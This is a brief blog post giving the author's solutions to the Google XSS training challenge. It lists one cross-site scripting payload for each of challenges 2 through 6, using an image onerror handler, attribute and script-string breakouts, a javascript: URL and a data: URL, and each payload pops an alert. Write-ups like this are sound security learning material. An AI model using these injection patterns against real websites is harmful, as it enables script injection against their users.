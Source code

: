 ```yaml
---
layout:     post
title:      "Xss challenge solution!!"
subtitle:   "Google xss challenge Solution!"
date:       2015-10-06 16:47:00
author:     "Heeraj"
header-img: "img/post-bg-02.jpg"
---
```


<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>Google XSS challenge solution!</p>

<p>Challenge 2</p>

<blockquote>"ptr=&#x3C;img src=&#x22;hrj&#x22; onerror=&#x22;alert(&#x22;xss&#x22;)&#x3E;"</blockquote>

<p>Challenge 3</p>

<blockquote>&#x27; onerror=&#x27;alert(&#x22;xss&#x22;)&#x27;&#x3E;</blockquote>

<p>Challenge 4</p>

<blockquote>');alert('xss</blockquote>

<p>Challenge 5</p>

<blockquote>javascript%3Aalert(%22xss%22)</blockquote>

<p>Challenge 6</p>

<blockquote>#data:text/plain,alert('xss')</p>

<p>Stay tuned!<br> Untill we come with our another blog!</p>





